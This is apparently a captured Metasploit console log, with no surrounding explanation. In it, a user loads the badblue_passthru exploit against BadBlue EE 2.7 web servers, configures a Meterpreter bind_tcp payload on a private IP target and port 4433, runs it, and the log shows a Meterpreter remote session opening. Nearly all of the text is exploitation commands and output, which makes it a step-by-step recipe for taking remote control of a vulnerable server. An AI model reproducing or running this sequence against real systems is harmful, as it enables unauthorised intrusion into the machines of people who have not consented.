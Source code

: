```
Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/http/badblue_passthru

msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/http/badblue_passthru
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf6 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST                      no        The target address


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf6 exploit(windows/http/badblue_passthru) > set RHOSTS 10.0.17.144
RHOSTS => 10.0.17.144
msf6 exploit(windows/http/badblue_passthru) > set LPORT 4433
LPORT => 4433
msf6 exploit(windows/http/badblue_passthru) > exploit

[*] Trying target BadBlue EE 2.7 Universal...
[*] Started bind TCP handler against 10.0.17.144:4433
[*] Sending stage (175174 bytes) to 10.0.17.144
[*] Meterpreter session 2 opened (10.0.28.68:49427 -> 10.0.17.144:4433) at 2023-03-08 19:56:33 +0530

meterpreter > 

```

